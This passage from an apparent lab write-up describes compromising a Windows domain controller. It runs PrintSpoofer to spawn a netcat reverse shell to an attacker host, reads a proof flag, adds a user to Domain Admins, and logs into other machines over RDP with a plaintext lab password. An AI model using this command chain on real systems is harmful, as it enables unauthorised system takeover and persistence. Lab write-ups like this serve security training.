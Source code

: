 Run exploit:
```powershell
.\PrintSpoofer64.exe -c "nc64.exe 192.168.45.241 4444 -e cmd"
```
BINGO!!!

We catch a shell as DC01$:
```
nc -vlnp 4444
listening on [any] 4444 ...
connect to [192.168.45.241] from (UNKNOWN) [192.168.190.97] 50855
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
secura\dc01$

C:\Windows\system32>
```

Flag:
```powershell
type C:\Users\Administrator.DC01\Desktop\proof.txt
8253189807ece83a9dee44f44e6e8a69
```

# Post Exploitation

Promote charlotte to a domain admin:
```powershell
Add-ADGroupMember -Identity "Domain Admins" -Members "charlotte"
```

List domain admins:
```Powershell
Get-ADGroupMember -Identity "Domain Admins" | Select-Object Name, SamAccountName

Name          SamAccountName
----          --------------
Administrator Administrator
charlotte     charlotte
```

Now we can access every other workstation as domain admin charlotte:
VM01:
```bash
xfreerdp /u:'charlotte' /p:'Game2On4.!' /v:192.168.190.95 /cert:ignore +clipboard /dynamic-resolution
```

VM02 (we enabled RDP):
```bash
xfreerdp /u:'charlotte' /p:'Game2On4.!' /v:192.168.190.96 /cert:ignore +clipboard /dynamic-resolution
```

